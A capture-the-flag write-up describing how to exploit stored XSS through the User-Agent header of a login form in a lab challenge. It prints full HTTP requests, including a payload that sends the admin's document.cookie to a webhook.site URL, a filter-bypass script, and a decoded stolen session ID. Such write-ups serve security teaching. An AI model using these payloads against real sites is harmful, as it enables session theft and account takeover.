



### Forbidden code
Level: Hard

Imagination is more important than knowledge.

### Solution

See the admin panel, the registration form, we go through registration, we get to the Control Plane page, where authentication statistics are displayed.



Try searching for sql injection and xss. We send the payload in the User-Agent header:

```
POST /login.php HTTP/1.1
Host: 62.173.140.174:36000
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: --><script>alert(1);</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=codeby123&password=111
```

We go to the Control Plane page and validate the XSS. We create a payload to pull out the admin cookie, for this we bid a webhook page at https://webhook.site/. Sending payload:

```
POST /login.php HTTP/1.1
Host: 62.173.140.174:36000
Content-Length: 31
Content-Type: application/x-www-form-urlencoded
User-Agent: --><embed/src="https://webhook.site/dff40e0c-d4eb-4903-aa97-89b2d1dd14e6?Cookie="+document.cookie>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=admin&password=111
```

On the webhook page we receive a connection, but without the cookie parameter. Input is filtered for cookie value, eval value, etc. Bypass the filter with a payload:
```
--><script>[]["filter"]["constructor"]('document.write("</img>")')()</script>
```



Get the admin cookieUEhQU0VTU0lEPWZwY3NxbmRycjY1cW91dWI1cnJiZ2poZ2c2 in base64. Decode and login admin panel.

```
echo UEhQU0VTU0lEPWZwY3NxbmRycjY1cW91dWI1cnJiZ2poZ2c2 | base64 -d                                                
PHPSESSID=fpcsqndrr65qouub5rrbgjhgg6%%
```


get flag: CODEBY{m1ss_th3_cl13nt_att4cks?}
